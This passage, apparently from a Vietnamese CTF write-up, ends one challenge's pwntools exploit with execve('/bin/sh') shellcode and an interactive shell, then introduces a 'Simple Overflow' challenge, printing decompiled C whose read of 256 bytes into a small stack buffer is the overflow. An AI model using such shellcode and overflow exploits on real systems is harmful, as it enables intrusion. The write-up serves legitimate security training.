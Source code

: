```python
    mov rax, 29400045130965551
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
""")

time.sleep(2)

p.sendline(shellcode2)

p.interactive() 
# KCSC{https://www.youtube.com/watch?v=dQw4w9WgXcQ}
```

## pwn/Simple Overflow

{{< admonition note "Challenge Information" >}}
* 2 solves / 496 pts / by Nuuuuuuuu
* **Given files:** [simple_overflow.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EUlfGWaVWGlCikIA45vdnVQBmb8jzs-1yK8KiWvShSwOiQ?e=tm96Lp)
* **Description:** simple description since it’s simple overflow\
`nc 103.162.14.116 12004`
{{< /admonition >}}

**Solution**

Chúng ta có thể thấy sự xuất hiện của lỗ hổng BOF ở hàm `save_data` tại hàm `read` 

```c
unsigned __int64 __fastcall save_data(const char *a1)
{
  int i; // [rsp+14h] [rbp-4Ch]
  unsigned __int64 v3; // [rsp+18h] [rbp-48h]
  __int64 buf[2]; // [rsp+20h] [rbp-40h] BYREF
  char s[8]; // [rsp+30h] [rbp-30h] BYREF
  __int64 v6; // [rsp+38h] [rbp-28h]
  __int64 v7; // [rsp+40h] [rbp-20h]
  __int64 v8; // [rsp+48h] [rbp-18h]
  unsigned __int64 v9; // [rsp+58h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  *(_QWORD *)s = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  buf[0] = 0LL;
  buf[1] = 0LL;
  snprintf(s, 0x20uLL, "Hi %s, let me keep your data\n", a1);
  printf("%s", s);
  puts("How many data you want to save?");
  v3 = get_long();
  fflush(stdin);
  for ( i = 0; v3 > i; ++i )
  {
    puts("Data: ");
    read(0, buf, 256uLL);
    strcpy(saved_data, (const char *)buf);
    puts(saved_data);
  }
  puts("Your data is saved");
  return v9 - __readfsqword(0x28u);
```